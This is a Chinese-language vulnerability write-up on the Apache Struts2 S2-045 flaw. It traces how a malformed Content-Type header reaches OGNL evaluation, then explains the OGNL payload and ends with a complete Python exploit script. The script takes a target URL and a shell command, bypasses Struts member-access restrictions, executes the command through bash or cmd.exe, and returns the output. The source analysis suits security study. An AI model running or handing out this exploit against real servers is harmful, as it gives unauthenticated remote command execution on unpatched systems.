 ﻿## Struts2 045 漏洞分析
### 目录
- 基础知识
- Struts2 045 源码分析
- exp

由于对JAVA和Struts都不熟悉，所以在分析过程当中很多转换都不理解，只能理清代码运行过程。
### 1.基础知识
#### 1. 什么是Struts？

一套用于创建企业级Java Web 应用的开源MVC框架。

#### 2. 什么是Struts2 045漏洞？

Struts2 045漏洞是由于异常处理函数对Content-Type的内容进行ognl表达式解析，导致可以在服务器上执行任意命令。

#### 3. Struts2的处理流程

![image](https://images.seebug.org/content/images/2017/03/st2_arch.png-w331s)

从上面的流程图可以看到，

1.客户端产生一个HttpServletRequest的请求

2.请求经过一系列的过滤器（ActionContextCleanUp、SiteMesh），过滤器对所有的请求都起到作用，主要用来对请求添加，修改或者分派转发至Action处理业务逻辑。

3.FilterDispatcher（有一些是StrutsPrepareAndExecuteFilter）被调用，并询问ActionMapper来决定这个请求是否需要调用某个Action来处理这个请求。

4.然后再经过拦截器，拦截器能对配置文件中匹配的 request 进行处理，并能获取 request 当中的上下文环境及数据。

5.最后将结果返回。
#### 4. 什么是OGNL？
OGNL是Object-Graph Navigation Language的缩写，它是一种功能强大的表达式语言（Expression Language，简称为EL），通过它简单一致的表达式语法，可以存取对象的任意属性，调用对象的方法，遍历整个对象的结构图，实现字段类型转化等功能。

在Struts2中，使用Ognl表达式作为字符串与对象之间转换的一种实现，通过Ognl表达式可以轻松做到String与Object之间的沟通。

### 2.Struts2 045 源码分析
从前面的分析可以知道，

查看web.xml文件配置可以看到拦截请求的过滤器是StrutsPrepareAndExecuteFilter：
![image](./pic/webxml.png)


接下来这个类会执行doFilter()方法，并且执行prepare.wrapRequest调用，因此跳转到PrepareOperations类，可以看到再次调用dispatcher.wrapRequest方法：
![image](./pic/PrepareOperations.png)

在这个方法中，可以看到这里先获取ContenType，判断是否包含multipart/form-data，这也就是后面我们要在ognl表达式中包含multipart/form-data的原因。然后会去new一个MultiPartRequestWrapper对象，
![image](./pic/Dispatcher.png)

然后在MultiPartRequestWrapper的构造函数中，会调用multi.parse方法，在这里multi=multiPartRequest，会调用JakartaMultiPartRequest类中的parse方法。
![image](./pic/MultiPartRequestWrapper.png)

在parse方法中调用了processUpload方法，据别人的解析所说，这个方法会判断content-type是否是multipart开头，不是的话引发异常，并将content-type信息放入异常中。不过这个方法我跟踪不到。然后异常会调用buildErrorMessage函数。
![image](./pic/JakartaMultiPartRequest.png)

接着这个函数会调用LocalizedTextUtil.findText函数：
![image](./pic/buildErrorMessage.png)

然后搜索defaultMessage，也就是前面传进来的错误信息，可以找到最开始调用是在
getDefaultMessage函数里面：
![image](./pic/getdefaultmessage.png)

继续跟进getDefaultMessage函数,可以发现又被TextParseUtil.translateVariables函数调用：
![image](./pic/default.png)

注意这里的$和%，两者都能告诉执行环境 ${} 或 %{} 中的内容为ognl表达式。
![image](./pic/char.png)

经过很多次TextParseUtil.translateVariables函数之后,错误信息传入TextParser.evaluate函数
![image](./pic/parse.png)

最后在OgnlTextParser类中执行ognl表达式：

![image](./pic/ognl.png)

然后再把结果一步一步返回回去，存进一个数组里，等待geterrors函数调用。
### 3. exp

exp里主要看OGNL表达式，由于对OGNL不熟悉，所以我讲一下我的理解：
```
(#Nike='multipart/form-data')
```
这个是为了满足前面对multipart/form-data包含的判断，又会触发不是以multipart/form-data开头的异常。
```
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm))))
```
通过ognl表达式静态调用获取ognl.OgnlContext的DEFAULT_MEMBER_ACCESS属性(默认是非PUBLIC的属性和方法不可访问)，并将获取的结果覆盖_memberAccess属性，这样就可以绕过SecurityMemberAccess的限制.
```
(#cmd='%s').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds))
```
这一段是判断操作系统，如果是linux，调用bash；如果是windows，调用cmd。
```
(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())
```
这一段是执行传递进来的命令，然后通过流来将命令回显内容输出。


写exp的时候发现一个问题，原先是使用requests库来发送请求，但是引发异常：

('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))

查找stackoverflow给出这么一个解决办法，就是用urllib2库，同时增加异常处理，然而还是不知道e.partical是什么。
```
import urllib2
import httplib
from optparse import OptionParser

def struts(url,cmd):

    content_type="${(#Nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).\
    (#cmd='%s').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).\
    (#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"%cmd

    
    request = urllib2.Request(url)
    
    request.add_header('User-Agent',"Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0")
    request.add_header('content-type',content_type)
    
    try:
        page = urllib2.urlopen(request).read().decode('gbk')
    except httplib.IncompleteRead, e:
        page = e.partial

    print page

def main():

    parser=OptionParser()
    parser.add_option("-u",action="store",dest="url",help="url")
    parser.add_option("--cmd",action="store",dest="cmd",help="cmd")
    (options,args)=parser.parse_args()

    struts(options.url,options.cmd)

if __name__=="__main__":
    main()
```
